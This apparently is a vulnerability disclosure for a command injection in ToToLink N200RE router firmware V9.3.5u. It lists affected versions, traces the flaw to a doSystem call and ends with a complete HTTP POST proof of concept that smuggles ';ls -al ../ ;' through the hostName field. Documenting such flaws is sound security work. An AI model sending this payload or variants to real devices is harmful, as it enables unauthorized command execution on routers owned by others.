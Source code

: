 # ToTolink N200RE V9.3.5u setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.

![1.png](img/1.jpg)

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

The following is the firmware demonstration result for version V5_V9.3.5u.5812-B20200414

### Scope of vulnerability impact

1.V5_V9.3.5u.5812_B20200414

2.V9.3.5u.6095_B20200916

3.V9.3.5u.6139_B20201216	

4.V9.3.5u.6255_B20211224

5.V9.3.5u.6437_B20230519

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()

![1.png](img/2.png)

By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.

![1.png](img/3.png)

#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo

![1.png](img/4.png)
